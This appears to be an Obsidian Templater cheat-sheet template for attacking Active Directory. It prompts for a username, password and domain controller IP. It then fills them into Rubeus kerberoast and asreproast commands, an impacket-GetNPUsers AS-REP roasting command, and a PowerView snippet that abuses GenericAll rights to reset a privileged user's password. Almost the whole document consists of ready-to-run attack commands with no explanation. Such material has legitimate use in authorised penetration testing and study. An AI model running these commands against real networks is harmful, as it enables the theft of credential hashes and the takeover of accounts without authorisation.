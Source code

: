 <%*
let Name = await tp.system.prompt("Enter user name with credentials")
let Pass = await tp.system.prompt("Enter the user's password with credentials")
let IP = await tp.system.prompt("Enter the IP of the DC")
-%>

- kerberoast

```
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

- asreproast

```
.\Rubeus.exe asreproast /outfile:hashes.asreproast
```

- AS-REP Roasting

```
impacket-GetNPUsers -dc-ip <% IP %>  -request -outputfile hashes.f <% tp.frontmatter["DOMAIN"] %>/<% Name %>
```


> [!Warning] If the above does not work (GenericAll)
> Try changing the password of a privileged user.
> You need to download PowerView.ps1 to use it. *Set-DomainUserPassword*
>
>```powershell
>$SecPassword = ConvertTo-SecureString '<% Pass %>' -AsPlainText -Force
>$Cred = New-Object System.Management.Automation.PSCredential('<% tp.frontmatter["DOMAIN"] %>\<% Name %>', $SecPassword)
>$UserPassword = ConvertTo-SecureString 'PasswordInventada' -AsPlainText -Force
>Set-DomainUserPassword -Identity UserAbuse -AccountPassword $UserPassword -Credential $Cred
